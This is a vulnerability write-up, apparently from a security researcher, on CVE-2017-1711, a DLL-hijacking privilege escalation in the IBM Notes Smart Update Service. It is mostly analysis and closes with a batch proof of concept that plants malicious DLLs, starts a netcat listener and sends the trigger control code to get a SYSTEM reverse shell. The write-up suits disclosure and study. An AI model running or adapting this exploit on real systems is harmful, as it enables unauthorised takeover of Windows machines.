# [IBM Notes] - [Smart Update Service vulnerable to local privilege escalation attacks]

* **Exploit Title:** [IBM Notes] - [Smart Update Service vulnerable to local privilege escalation attacks]
* **Vendor Homepage**: https://www.ibm.com/blogs/psirt/ibm-security-bulletin-ibm-notes-privilege-escalation-in-ibm-notes-smart-update-service/
* **Software Link**: https://www-03.ibm.com/software/products/fr/ibmnotes
* **Version**: IBM Notes 9.0.1 to 9.0.1 FP10, 9.0 to 9.0 IF4, 8.5.3 to 8.5.3 FP6 IF15,  8.5.2 to 8.5.2 FP4 IF3, 8.5.1. to 8.5.1 FP5 IF3, 8.5 release
* **Tested on**: IBM NOTES 9.0.1 FP6 running on Windows 10 Enterprise 10.0.17134 Version 1803 (17134.1304)
* **CVE** : CVE-2017-1711

---

## Overview

The IBM NOTES Smart Update Service is vulnerable to local privilege escalation attacks. The vulnerability tracked with "CVE-2017-1711" (https://nvd.nist.gov/vuln/detail/CVE-2017-1711) affects the IBM NOTES SMART UPDATE SERVICE, which is included in the IBM NOTES suite. A malicious user with limited privileges may create an arbitrary DLL and interact with the service to load it to get code execution with SYSTEM privileges. By executing a file from an uncontrolled location, the service is exposing itself to DLL Search Order Hijacking.

## Prerequisites

* Local user account with limited privileges

## Full description

### Static binary analysis

This vulnerability was reported by "Improsec" security company and all details can be found in this article "https://improsec.com/tech-blog/ibm-advisory-3".

To sum up, by analyzing the IBM Notes Smart Update Service "SUService.exe" executable using the IDA Pro disassembler, a function "sub_403D50" is registered to handle service control requests through the "RegisterServiceCtrlHandlerA" function. 



The article explains that sending a control code with the value "136" (0x83+0x4+0x1 = 0x88 in hexadecimal) will result in the function "sub_402D60" being called. 



The "sub_402D60" function contains several operations to copy the service itself to the TEMP directory and execute the copy. “Improsec” explains that this function is probably called when the service update its own executable.

Sample of the "copymeandrunme" function:




Sample of code when the path of "TEMP" folder is retrieved within the "GetTempPathA" method:




Service copied itself into the "C:\Windows\Temp" directory:




In addition, looking at the IBM Notes Smart Update Service "lnsusvc" permission showed that users are allowed to interact "INTERACTIVE" (cf. https://docs.microsoft.com/en-us/windows/win32/services/interactive-services ) with the service via user-defined control codes. 




The Windows Service Control "sc.exe" program provides a "control" command to interact directly with a specific service. Thereby, it is possible to trigger the "sub_402D60" method to simulate an update just by sending the magic code "136" (as mentioned above).

Sending the magic to the "lnsusvc" service:




A quick analysis using the free Process Monitor (Procmon) tool from the Sysinternal suite (https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) reveals that the process attempted to load the "MSIMG32.dll" binary from the "C:\Windows\Temp" folder. 



Since the "MSIMG32.dll" binary doesn’t exist "NAME NOT FOUND" and the "C:\Windows\TEMP" folder is writable by all users (FILE_ADD_FILE attribute), it is possible to plant an arbitrary DLL into this folder to perform DLL Hijacking attacks. When the special control code "136" will be sent to the service, the evil DLL "C:\Windows\Temp\MSIMG32.dll" will be loaded by the service with SYSTEM privileges.

### Exploitation

To exploit this vulnerability, a PoC (bath script) has been developed to automate the process of planting the malicious "MSIMG32.dll" and sending the control code to the service using different stages and commands sequences. Another evil DLL "evilDS.dll" was also used to start a reverse TCP shell locally (127.0.0.1) to interact and issue commands in the context of Local System. This DLL will be loaded once the "MSIMG32.dll" is being called with success by the service. 

Source code of the PoC:
```shell
@echo off
set currentPath=%~dp0
set evildll=%currentPath%evilDS.dll
set msimg32dll=%currentPath%MSIMG32.dll

echo [+] Displaying the user you are currently logged in
whoami
echo [+] Displaying the privileges granted to the current user
whoami /priv
echo [+] Copying the malicious DLLs...
xcopy /q /y %evildll% C:\TEMP
xcopy /q /y %msimg32dll% c:\windows\temp\
echo [+] Starting the Listener...
start nc.exe -lvp 4443
echo [+] Sending the magic to the "lnsusvc" service...
sc control lnsusvc 136
```

Running the exploit on the target:




TCP listener started locally on port 4443 using the netcat "nc.exe" utility:



As shown above, the local reverse tcp shell is successfully loaded by the target with SYSTEM privileges.


"MSIMG32.dll" and "evilDS.dll" successfully loaded with SYSTEM privileges:


